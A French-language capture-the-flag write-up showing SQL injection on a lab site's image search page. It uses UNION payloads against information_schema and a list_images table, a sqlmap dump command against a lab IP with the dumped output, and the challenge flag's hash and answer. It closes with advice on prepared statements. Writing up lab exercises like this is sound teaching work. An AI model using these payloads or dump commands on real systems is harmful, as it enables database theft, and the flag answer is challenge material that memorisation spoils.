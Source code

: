 # Explications 

Sur la page member search, il y a une SQL Injection.

On peut afficher toutes les images de la table en recherchant : "1 or 1=1"

On peut imaginer une requete forgée comme ca derriere : 

```sql
SELECT id, title, url FROM images WHERE id = $_GET['id']
```

en passant une UNION dans la requete, on peut donc lui faire afficher ce qu'on veut.

Sur la base de donnée MySQL une database (information_schema) contient des informations cruciales, on peut lui faire afficher les autres db / tables / columns

```
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```

On peut voir une table qui s'appele : "list_images" avec une column interessante : "comment"

J'attaque directement par cette requete :

```sql
1 or 1=1 UNION select url, comment from list_images
```

on obtient une consigne qui nous invite a : 

```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

1928e8083cf461a51303633093573c46 (md5->plain text) albatroz
albatroz (asci->sha256) f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

----

# Cas d'usage

Obtenir un dump de la DB, tous pleins d'infos utiles :)
 
----

# Comment l'eviter ?

Il faut a tout pris passer par des requetes SQL dites prepared, les ORM font tres bien le boulot.
(cf: PDO::prepare)

----

# Good to Know

sqlmap un petit tool en python qui a fait ses preuves depuis, peu permettre de rechercher des SQLi, un petit exemple:

sqlmap -u "http://192.168.2.128/?page=searchimg&id=1&Submit=Submit#" --dump -T list_images -D Member_images

```
Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

Plutot puissant non ?